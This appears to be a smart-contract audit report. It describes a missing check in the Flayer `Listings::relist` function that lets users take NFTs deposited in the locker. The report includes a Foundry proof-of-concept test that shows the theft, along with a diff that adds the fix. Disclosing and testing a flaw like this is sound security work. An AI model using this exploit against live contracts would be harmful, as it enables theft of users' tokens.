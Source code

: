 Wobbly Neon Hyena

High

# Users can call `Listings::relist` on unlisted NFTs, allowing them to steal NFTs deposited into the locker

### Summary

Users can deposit their tokens in the locker, and receive some tokens in return, these tokens should remain locked in that locket, until the token owner redeems/swaps that token. On the other hand, the `Listings` contract allows users to create listings for their tokens so that they can be sold for some price, when making a listing the NFT is sent to the locker:
```solidity
// We will leave a subset of the tokens inside this {Listings} contract as collateral or
// listing fees. So rather than sending the tokens directly to the user, we need to first
// receive them into this contract and then send some on.
locker.deposit(_listing.collection, _listing.tokenIds, address(this));
```
Relisting a token allows users to buy and create a new listing of a specific token in one action, this is done by calling `Listings:: relist `, which creates a new listing under the caller's name:
```solidity        
// Store our listing into our Listing mappings
_listings[_collection][_tokenId] = listing;
```
However, when relisting a listing, the contract doesn't check if a listing for the requested tokens exists, this allows any user to sweep NFTs deposited into the locker, by calling `Listings::relist` for that token and have a new listing created for that token user their name.

### Root Cause

`Listings::relist` doesn't check if the listing exits before performing the relisting of the request token, [here](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L625-L672).

### Impact

Users can steal "locked" tokens placed in the locker, without having a listing created for them.

### PoC

Add the following test in `flayer/test/Listings.t.sol`:

```solidity
function test_CanRelistUnlistedNFT() public {
    uint256[] memory tokenIds = new uint256[](1);
    ICollectionToken collectionToken = ICollectionToken(
        locker.collectionToken(address(erc721a))
    );
    address bob = address(1);
    address alice = address(2);

    uint256 bobTokenId = 0;

    erc721a.mint(bob, bobTokenId);
    deal(address(collectionToken), alice, 1 ether);

    // Bob deposits his token into the locker
    vm.startPrank(bob);
    erc721a.setApprovalForAll(address(locker), true);
    locker.deposit(address(erc721a), tokenIds);
    vm.stopPrank();

    // listing doesn't exist
    assertEq(
        listings.listings(address(erc721a), bobTokenId).owner,
        address(0)
    );

    // Alice calls relist lisintg on Bob's token, knowing no listing was created for it
    vm.startPrank(alice);
    collectionToken.approve(address(listings), 1 ether);
    tokenIds[0] = bobTokenId;
    listings.relist(
        IListings.CreateListing({
            collection: address(erc721a),
            tokenIds: tokenIds,
            listing: IListings.Listing({
                owner: payable(alice),
                created: uint40(block.timestamp),
                duration: 10 days,
                floorMultiple: 120
            })
        }),
        false
    );
    vm.stopPrank();

    // Bob's token is now listed under Alice's name
    assertEq(listings.listings(address(erc721a), bobTokenId).owner, alice);
}
```

### Mitigation

If the listing doesn't exist revert at the top of `Listings::relist`:

```diff
function relist(CreateListing calldata _listing, bool _payTaxWithEscrow) public nonReentrant lockerNotPaused {
    // Load our tokenId
    address _collection = _listing.collection;
    uint _tokenId = _listing.tokenIds[0];

    // Read the existing listing in a single read
    Listing memory oldListing = _listings[_collection][_tokenId];

+   if (oldListing.owner == address(0)) revert ListingNotAvailable();

    // Ensure the caller is not the owner of the listing
    if (oldListing.owner == msg.sender) revert CallerIsAlreadyOwner();

    // Load our new Listing into memory
    Listing memory listing = _listing.listing;

    // Ensure that the existing listing is available
    (bool isAvailable, uint listingPrice) = getListingPrice(_collection, _tokenId);
    if (!isAvailable) revert ListingNotAvailable();

    // We can process a tax refund for the existing listing
    (uint _fees,) = _resolveListingTax(oldListing, _collection, true);
    if (_fees != 0) {
        emit ListingFeeCaptured(_collection, _tokenId, _fees);
    }

    // Find the underlying {CollectionToken} attached to our collection
    ICollectionToken collectionToken = locker.collectionToken(_collection);

    // If the floor multiple of the original listings is different, then this needs
    // to be paid to the original owner of the listing.
    uint listingFloorPrice = 1 ether * 10 ** collectionToken.denomination();
    if (listingPrice > listingFloorPrice) {
        unchecked {
            collectionToken.transferFrom(msg.sender, oldListing.owner, listingPrice - listingFloorPrice);
        }
    }

    // Validate our new listing
    _validateCreateListing(_listing);

    // Store our listing into our Listing mappings
    _listings[_collection][_tokenId] = listing;

    // Pay our required taxes
    payTaxWithEscrow(address(collectionToken), getListingTaxRequired(listing, _collection), _payTaxWithEscrow);

    // Emit events
    emit ListingRelisted(_collection, _tokenId, listing);
}
```
